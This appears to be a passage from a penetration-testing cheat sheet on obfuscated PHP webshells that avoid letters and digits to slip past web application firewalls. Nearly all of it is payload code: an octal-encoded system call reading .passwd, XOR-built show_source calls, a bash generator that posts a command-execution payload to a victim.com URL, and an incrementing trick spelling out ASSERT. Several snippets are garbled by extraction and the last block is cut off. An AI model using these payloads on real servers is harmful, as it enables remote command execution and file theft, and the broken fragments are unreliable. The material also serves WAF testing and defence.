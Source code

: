 [https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)

### Using octal

```php
$_="\163\171\163\164\145\155(\143\141\164\40\56\160\141\163\163\167\144)"; #system(cat .passwd);
```

### **XOR**

```php
$_=("%28"^"[").("%33"^"[").("%34"^"[").("%2c"^"[").("%04"^"[").("%28"^"[").("%34"^"[").("%2e"^"[").("%29"^"[").("%38"^"[").("%3e"^"["); #show_source
$__=("%0f"^"!").("%2f"^"_").("%3e"^"_").("%2c"^"_").("%2c"^"_").("%28"^"_").("%3b"^"_"); #.passwd
$___=$__; #Could be not needed inside eval
$_($___); #If ¢___ not needed then $_($__), show_source(.passwd)
```

### XOR Shellcode \(inside eval\)

```bash
#!/bin/bash

if [[ -z $1 ]]; then
  echo "USAGE: $0 CMD"
  exit
fi

CMD=$1
CODE="\$_='\
```

```php
lt;>/'^'{{{{';\${\$_}[_](\${\$_}[__]);" `$_='
```

```php
lt;>/'^'{{{{'; --> _GET` `${$_}[_](${$_}[__]); --> $_GET[_]($_GET[__])` `So, the function is inside $_GET[_] and the parameter is inside $_GET[__]` http --form POST "http://victim.com/index.php?_=system&__=$CMD" "input=$CODE"
```

### Perl like

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;
```